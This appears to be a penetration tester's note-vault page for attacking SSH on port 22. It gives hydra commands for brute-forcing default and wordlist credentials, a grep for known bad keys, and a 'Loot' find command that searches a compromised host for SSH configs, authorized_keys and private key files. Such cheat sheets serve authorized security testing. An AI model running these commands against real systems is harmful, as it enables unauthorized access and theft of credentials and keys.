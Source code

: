 #service #login
<% tp.file.rename("1_SSH_22")%>
☑️
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```
#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip -V -t 4 -I -s 22
```
(pass userlist with `-L /usr/share/wordlists/dirb/others/names.txt`)

> Tip: If SSH-Version of target is to low to connect to, try command „kali-tweaks“, select hardening, and toggle „SSH“.

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```